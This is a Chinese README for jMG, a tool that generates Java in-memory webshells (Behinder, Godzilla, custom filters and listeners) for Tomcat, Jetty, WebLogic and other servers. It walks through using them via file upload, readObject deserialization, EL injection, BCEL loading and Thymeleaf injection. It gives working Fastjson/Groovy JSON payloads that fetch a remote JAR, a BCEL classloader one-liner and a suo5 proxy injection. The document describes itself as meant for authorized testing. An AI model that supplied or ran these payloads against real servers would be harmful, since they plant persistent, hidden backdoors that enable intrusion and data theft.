# jMG v1.0.4 - 高度自定义的 Java 内存马生成工具

## 0x01 简介

**jMG (Java Memshell Generator)** 是一款支持高度自定义的 java 内存马生成工具，可作为 woodpecker 的插件使用，提供常见中间件的内存马注入支持。



功能介绍

- 支持的中间件 (Tomcat/Resin/Jetty/WebLogic/WebSphere/Undertow/GlassFish/Spring)
- 支持的网站管理工具 (Behinder/Godzilla/Custom)
- 支持的内存马类型 (Filter/Listener/Interceptor)
- 支持的输出格式 (BASE64/BCEL/CLASS/JS/JSP/JAR/BIGINTEGER)
- 支持的辅助模块 (探测目标中间件/序列化数据封装)

模块划分

- 内存马生成模块
    - Behinder、Godzilla
    - Custom
        - 注入自定义的Filter和Listener，常见场景：其他网站管理工具的服务端、内存代理、内存水坑等
- 辅助模块
    - ServerType Detector 中间件探测器
        - 探测中间件信息，常见场景：SpringBoot Fatjar
        - 提供 4 种方式判断目标中间件 (DFSEcho/Sleep/DNSLog/HTTPLog)
- Ysoserial Payload Generator
    - 基于 ysoserial-for-woodpecker 对反序列化漏洞利用提供支持、提高漏洞利用效率


参数说明

| 参数名称        | 参数说明     | 其他                                     | |
|-------------|----------|----------------------------------------|-|
| server_type | 选择中间件的类型 |                                        |
| shell_type	 | 选择内存马的类型 |                                        |
| gadget_type | 选择利用链的类型 | 根据gadget自动完成对class的特殊处理，如继承类、实现接口、添加注解 |
| format_type | 输出格式     |                                        |

更多参数 - 参数自定义



## 0x02 中间件覆盖情况

|                 | godzilla-listener | godzilla-filter | behinder-listener | behinder-filter |
|-----------------|-------------------|-----------------|-------------------|-----------------|
| tomcat 9.0.39   | ✅                 | ✅               | ✅                 | ✅               |
| tomcat 8.5.53   | ✅                 | ✅               | ✅                 | ✅               |
| tomcat 7.0.59   | ✅                 | ✅               | ✅                 | ✅               |
| tomcat 6.0.48   | ✅                 | ✅               | ✅                 | ✅               |
| tomcat 5.5.36   | ✅                 | ✅               | ✅                 | ✅               |
| jetty 9.4.43    | ✅                 | ✅               | ✅                 | ✅               |
| jetty 8.2.0     | ✅                 | ✅               | ✅                 | ✅               |
| jetty 7.6.0     | ✅                 | ✅               | ✅                 | ✅               |
| resin 4.0.66    | ✅                 | ✅               | ✅                 | ✅               |
| resin 3.1.15    | ✅                 | ✅               | ❌                 | ✅               |
| weblogic 10.3.6 | ✅                 | ✅               | ✅                 | ✅               |
| weblogic 12.1.3 | ✅                 | ✅               | ✅                 | ✅               |
| websphere 8.5.5 | ✅                 | ✅               | ❌                 | ✅               |
| websphere 9.0.0 | ✅                 | ✅               | ❌                 | ✅               |

注：以上测试结果仅供参考


## 0x03 常见漏洞场景

### 01 文件上传漏洞 (JSP)

本地测试环境
- Tomcat v6.0.48
- JDK 8
- 文件上传

1、生成 jsp 文件


2、上传 jsp 到目标服务器，访问即可注入内存马，参考使用说明进行设置

- 设置请求头



3、成功连接



### 02 反序列化漏洞 (readObject)

本地测试环境
- Tomcat v8.5.53
- JDK 8
- readObject 反序列化
- CB1 链

1、生成 class 文件
```text
server_type=Tomcat
shell_type=Listener
# 继承 AbstractTranslet
gadget_type=JDK_AbstractTranslet
format_type=CLASS
output_path=/tmp/
```



2、使用 `辅助模块` 进行序列化数据封装

```text
yso_gadget=CommonsBeanutils1
yso_cmd=class_file:/tmp/HttpClientUtil.class
format_type=BASE64
```



注：依赖 https://github.com/woodpecker-framework/ysoserial-for-woodpecker

3、利用后，参考使用说明进行连接


### 03 表达式注入漏洞 (EL)

本地测试环境
- Tomcat v8.5.83
- JDK 8
- EL 表达式代码执行

1、生成 class文件
```text
server_type=Tomcat
shell_type=Listener
gadget_type=NONE
format_type=CLASS
output_path=/tmp/
```



2、使用 jexpr-encoder-utils 进行封装



注：依赖 https://github.com/woodpecker-appstore/jexpr-encoder-utils

3、利用后，参考使用说明进行连接



### 04 代码执行漏洞 (Bsh)

本地测试环境
- Resin v4.0.40
- JDK 8
- Bsh 代码执行漏洞

1、选择 输出格式为 BCEL ，生成 paylaod
```text
server_type=Resin
shell_type=Listener
gadget_type=NONE
format_type=BCEL
```



2、利用 BCEL 打内存马

```text
new com.sun.org.apache.bcel.internal.util.ClassLoader().loadClass("BCEL编码后的paylaod").newInstance();
```

3、参考使用说明进行连接



### 05 反序列化漏洞 (Fastjson)

本地测试环境
- Tomcat v8.5.83
- Fastjson v1.2.80 反序列化漏洞
- Groovy v3.0.8


1、选择 输出格式为 JAR，生成 payload

```text
server_type=Tomcat
shell_type=Listener
# 选择利用链为 Fastjson+Groovy
gadget_type=FastjsonGroovy
format_type=JAR
output_path=/tmp/fj/
```



2、利用 groovy 利用链打内存马

第1个请求

```json
{
    "@type":"java.lang.Exception",
    "@type":"org.codehaus.groovy.control.CompilationFailedException",
    "unit":{}
}
```

第2个请求

```json
{
    "@type":"org.codehaus.groovy.control.ProcessingUnit",
    "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
    "config":{
        "@type":"org.codehaus.groovy.control.CompilerConfiguration",
        "classpathList":"http://127.0.0.1:8888/NetworkUtils.jar"
    }
}
```



3、参考使用说明进行连接



### 06 模板注入漏洞 (Thymeleaf)
本地测试环境
- SpringBoot v2.2.0.RELEASE
  - 内嵌 Jetty
- JDK 8
- Thymeleaf 模板注入漏洞

由于 springboot 可以自定义中间件，所以在 springboot 场景下注入内存马时需要考虑目标中间件可能不是常见的tomcat，有可能是jetty/undertow，也有可能是信创中间件。

这种情况一般有两种方案：
- 注入框架层面的内存马，比如 interceptor
- 先判断出目标中间件，再注入对应中间件的内存马

这个时候就需要上 辅助模块 - ServerType Detector 来探测目标中间件。

1、优先使用 DFSEcho 通过回显来判断目标中间件，失败后再考虑dnslog等其他选择

```text
detect_way=DFSEcho
server_type=Tomcat
dnslog_domain=xxx.dnslog.cn
httplog_url=http://xxx.httplog.cn
sleep_seconds=5
gadget_type=NONE
format_type=BCEL
```



2、获取到目标中间件为 jetty



3、生成对应的 payload

```text
server_type=Jetty
shell_type=Listener
gadget_type=NONE
format_type=BCEL
```



4、漏洞利用

第1次尝试 - 失败



很常见的问题，参考 shiro 的漏洞利用的解决方案，写个 loader 加载字节码再 defineclass 即可。

重新生成 payload



5、利用后参考使用说明进行连接即可



更多的场景就见仁见智了。


## 0x04 常见利用场景

### 01 注入内存代理
本地测试环境

- Tomcat v8.5.53
- JDK 8
- readObject 反序列化
- CB1 链


1、以 suo5 为例，编译 Suo5Filter.java

https://github.com/zema1/suo5/blob/main/assets/Suo5Filter.java

2、选择对应的中间件，生成 payload

```text
server_type=Tomcat
gadget_type=JDK_AbstractTranslet
format_type=CLASSc
lass_file_path=/tmp/Suo5Filter.class
output_path=/tmp/
```



3、使用 辅助模块 进行序列化数据封装



4、利用后连接测试，内存代理注入成功




## 0x05 小结

下载地址

[java-memshell-generator](https://github.com/pen4uin/java-memshell-generator)

注意⚠️
```text
该工具仅适用于在授权环境/测试环境进行使用，请勿用于生产环境。
如果遇到 bug / 建议 / 实战场景需求，欢迎提 issue 交流
```

目录结构如下 (需要下载 yso-for-woodpecker)
```text
pen4uin@bogon Desktop % tree /tmp/woodpecker 
/tmp/woodpecker
├── common
│   └── ysoserial-for-woodpecker-0.5.2.jar
├── config.db
├── plugin
│   └── jMG-1.0.4.beta1.jar
└── woodpecker-framework.1.3.5.jar
```


<br>
参考

- https://github.com/feihong-cs/memShell
- https://github.com/su18/MemoryShell
- https://github.com/woodpecker-framework/
- https://github.com/BeichenDream/GodzillaMemoryShellProject
